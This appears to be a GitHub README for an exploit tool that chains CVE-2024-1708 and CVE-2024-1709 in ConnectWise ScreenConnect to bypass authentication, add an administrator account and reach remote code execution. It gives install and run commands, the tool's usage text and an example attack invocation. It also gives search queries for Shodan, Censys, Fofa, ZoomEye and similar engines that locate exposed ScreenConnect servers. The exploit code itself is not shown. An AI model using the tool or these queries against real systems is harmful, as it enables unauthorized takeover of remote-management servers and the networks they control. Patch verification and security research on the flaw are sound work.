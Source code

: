 # How to use

I'm using `Python3.9`.

```
pip install requests
# python check.py
python batchAdduser.py
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN]
CVE-2024-1708 && CVE-2024-1709 --> RCE!!!
optional arguments:                                                                          
  -h, --help            show this help message and exit                                      
  -u USERNAME, --username USERNAME                                                           
                        username you want to add                                             
  -p PASSWORD, --password PASSWORD                                                           
                        password you want to add                                             
  -t TARGET, --target TARGET                                                                 
                        target url                                                           
  -d DOMAIN, --domain DOMAIN                                                                 
                        Description of domain
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/c6d6a60e-433f-4f80-807d-dc7bc061cb96)

# Cyberspace mapping statement

## Odin

```
services.modules.http.headers.server:"screenconnect"
```

## Zoomeye
```
app:"ScreenConnect Remote Management Software"
```

## Censys

```
services.http.response.headers:(key: `Server` and value.headers: `ScreenConnect`)
```

## Shodan

```
"Server: ScreenConnect"
```

## Hunter.how

```
product.name="ConnectWise ScreenConnect software"
```

## Fofa

```
app="ScreenConnect-Remote-Support-Software"
```

# Reference

https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8

https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc